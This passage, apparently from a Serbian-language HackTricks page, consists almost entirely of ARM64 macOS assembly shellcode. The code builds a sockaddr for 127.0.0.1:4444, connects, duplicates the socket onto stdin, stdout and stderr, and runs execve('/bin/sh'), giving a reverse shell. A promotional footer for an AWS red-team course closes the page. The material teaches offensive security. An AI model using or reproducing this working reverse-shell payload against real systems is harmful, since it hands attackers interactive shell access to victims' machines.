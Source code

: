 ```armasm
*     sa_family_t     sin_family;  // AF_INET = 2
*     in_port_t       sin_port;    // 4444 = 0x115C
*     struct  in_addr sin_addr;    // 127.0.0.1 (4 bytes)
*     char            sin_zero[8]; // Don't care
* };
*/
mov  x1, #0x0210
movk x1, #0x5C11, lsl #16
movk x1, #0x007F, lsl #32
movk x1, #0x0100, lsl #48
str  x1, [sp, #-8]
mov  x2, #8
sub  x1, sp, x2
mov  x2, #16
mov  x16, #98
svc  #0x1337

lsr  x2, x2, #2

call_dup:
// dup(s, 2) -> dup(s, 1) -> dup(s, 0)
mvn  x0, x3
lsr  x2, x2, #1
mov  x1, x2
mov  x16, #90
svc  #0x1337
mov  x10, xzr
cmp  x10, x2
bne  call_dup

call_execve:
// execve("/bin/sh", 0, 0)
mov  x1, #0x622F
movk x1, #0x6E69, lsl #16
movk x1, #0x732F, lsl #32
movk x1, #0x68, lsl #48
str  x1, [sp, #-8]
mov	 x1, #8
sub  x0, sp, x1
mov  x1, xzr
mov  x2, xzr
mov  x16, #59
svc  #0x1337
```

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:
